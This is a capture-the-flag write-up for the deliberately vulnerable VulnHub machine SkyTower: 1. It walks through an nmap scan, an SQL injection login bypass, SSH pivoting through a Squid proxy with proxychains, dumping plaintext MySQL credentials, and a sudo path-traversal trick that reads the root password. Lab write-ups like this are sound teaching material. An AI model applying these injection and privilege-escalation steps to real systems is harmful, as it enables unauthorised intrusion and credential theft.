 <h1>SkyTower: 1 Write-up</h1>

<h2>Nmap</h2>

```
PORT     STATE    SERVICE    VERSION
22/tcp   filtered ssh
80/tcp   open     http       Apache httpd 2.2.22 ((Debian))
3128/tcp open     http-proxy Squid http proxy 3.1.20
|_http-server-header: squid/3.1.20
MAC Address: 08:00:27:54:4A:37 (Oracle VirtualBox virtual NIC)
```

<h3>PORT 80</h3>

**Sql injection :**

```
username: '-'
password: '-'
```

After Login in welcome message there is creds for john user for ssh:

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/SkyTower%3A%201/Images/creds.png)


<h3>ProxyChain</h3>

I have the creds but port 22(ssh) is not open. I again saw the nmap scan and there is **Squid http proxy** is  running on PORT 3128 so i configured Proxychains to access ssh 

```
apt install proxychains
```

Add ```http 192.168.56.101 3128``` in the end of ```/etc/proxychains.conf``` 

NOTE: IF THERE IS ANY OTHER LINE LIKE THIS YOU MUST REMOVE THAT LINE. THERE MUST TO ONLY ONE LINE AT A TIME IF YOU HAVE ANY CONFUSION CHECK [MY PROXYCHAIN FILE](https://github.com/Vanshal/Vulnhub-Writeups/blob/master/SkyTower:%201/proxychains.conf)


```
proxychains ssh john@127.0.0.1
```

Normally i can't access the shell so i gave  command from ssh itself 

```proxychains ssh john@127.0.0.1 /bin/bash```


<h2>Privilege Escalation</h2>

<h3>Mysql Enumeration</h3>

```
john@SkyTower:~$ mysql -uroot -proot
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 54
Server version: 5.5.35-0+wheezy1 (Debian)Copyright (c) 2000, 2013, Oracle and/or its affiliates. All rights reserved.Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| SkyTech            |
| mysql              |
| performance_schema |
+--------------------+
4 rows in set (0.01 sec)mysql> use SkyTech;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -ADatabase changed
mysql> show tables;
+-------------------+
| Tables_in_SkyTech |
+-------------------+
| login             |
+-------------------+
1 row in set (0.00 sec)mysql> select * from login;
+----+---------------------+--------------+
| id | email               | password     |
+----+---------------------+--------------+
|  1 | john@skytech.com    | hereisjohn   |
|  2 | sara@skytech.com    | ihatethisjob |
|  3 | william@skytech.com | senseable    |
+----+---------------------+--------------+
3 rows in set (0.00 sec)mysql> exit
Bye
john@SkyTower:~$
```

Got creds for sara user :

```ssh sara@192.168.56.101 /bin/bash```

```
sara@SkyTower:~$ sudo -l
Matching Defaults entries for sara on this host:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/binUser sara may run the following commands on this host:
    (root) NOPASSWD: /bin/cat /accounts/*, (root) /bin/ls /accounts/*
sara@SkyTower:~$
sara@SkyTower:~$ sudo cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
sara@SkyTower:~$
sara@SkyTower:~$ su -
Password:**theskytower**
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SkyTower:~#
```

![alt text](https://raw.githubusercontent.com/Vanshal/Vulnhub-Writeups/master/SkyTower%3A%201/Images/flag.png)
